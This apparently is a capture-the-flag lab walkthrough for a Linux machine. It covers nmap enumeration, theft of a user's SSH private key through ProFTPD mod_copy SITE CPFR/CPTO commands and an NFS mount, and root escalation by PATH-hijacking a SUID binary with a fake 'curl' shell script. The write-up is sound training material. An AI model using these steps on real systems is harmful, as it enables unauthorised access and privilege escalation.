1. nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.81.144.234

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-03 09:13 IST
Warning: 10.81.144.234 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.81.144.234
Host is up (0.28s latency).
Not shown: 63793 closed tcp ports (reset), 1732 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
34805/tcp open  unknown
36055/tcp open  unknown
45123/tcp open  unknown
51427/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 35.22 seconds
```
```sh
nmap -sC -sV -T4 -Pn -p 22,80,111,139,445,2049,34805,36055,45123,51427 10.81.144.234

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-03 09:16 IST
Nmap scan report for 10.81.144.234
Host is up (0.18s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 15:8f:38:ac:87:3c:f1:7a:6c:86:fa:bc:7e:df:2d:f0 (RSA)
|   256 14:1a:ec:31:a4:2c:5a:c6:6a:3f:08:bc:c8:f9:0e:13 (ECDSA)
|_  256 02:33:64:07:7b:5a:4f:b0:a7:af:3a:50:75:3e:fe:08 (ED25519)
80/tcp    open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin.html
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36055/tcp   mountd
|   100005  1,2,3      36531/udp6  mountd
|   100005  1,2,3      47014/udp   mountd
|   100005  1,2,3      51365/tcp6  mountd
|   100021  1,3,4      33551/udp   nlockmgr
|   100021  1,3,4      36021/tcp6  nlockmgr
|   100021  1,3,4      45123/tcp   nlockmgr
|   100021  1,3,4      58505/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
2049/tcp  open  nfs         3-4 (RPC #100003)
34805/tcp open  mountd      1-3 (RPC #100005)
36055/tcp open  mountd      1-3 (RPC #100005)
45123/tcp open  nlockmgr    1-4 (RPC #100021)
51427/tcp open  mountd      1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2026-02-03T03:46:49
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.59 seconds
```

2. Enumerate SMB shares




This file revealed two key findings:

1. An RSA key was generated for user `kenobi' at` /home/kenobi/.ssh/id_rsa`
2. A ProFTPD configuration was mentioned—suggesting anonymous FTP is active and potentially exploitable via `mod_copy`.




You should have found an exploit from ProFtpd’s mod_copy module.

The mod_copy module implements **SITE CPFR and SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.
```sh
SITE CPFR path
SITE CPTO path
```


We’re now going to copy Kenobi’s private key using SITE CPFR and SITE CPTO commands.

I connected to FTP using netcat and issued.

We knew that the /var directory was a mount we could see (task 2, question 4). So we’ve now moved Kenobi’s private key to the /var/tmp directory.




We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi’s account.




To begin privilege escalation, I searched for binaries with the **SUID** (Set User ID) bit set. The SUID permission causes executables to run with the permissions of the **file owner**, not the user who ran them. That’s a big deal when the file is owned by **root** because it means a low-privilege user might execute code with root privileges.
```sh
find / -perm -u=s -type f 2>/dev/null
```


This is **not** a standard utility on Linux systems, and it’s unusual for a custom binary to have SUID permissions. This made it a prime candidate for further analysis.

Running this binary:
```
/usr/bin/menu
```


To investigate the binary, I ran the `strings` command to extract readable strings:


This output revealed several important clues. Near the bottom of the output were three recognizable commands:
These are basic Linux networking and system commands that a script might use to check HTTP connectivity, system version, or network configuration. However, **they were not referenced with their full paths** (such as `/usr/bin/curl`). Instead, the binary simply calls them by name.

This is dangerous behavior in a SUID binary. When a program runs with elevated privileges and executes a command without specifying the full path, it relies on the `PATH` environment variable to locate that command. If a malicious user places a fake script named `curl` in a directory like `/tmp`, and then manipulates the `PATH` variable to prioritize that directory, the binary will execute the fake script instead.

Because `menu` is owned by root and has the SUID bit set, it runs as root, which means the attacker’s fake script also runs as root.

We demonstrated this by copying `/bin/sh` into a file named `curl`, making it executable, and updating our `PATH` variable:
```sh
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```



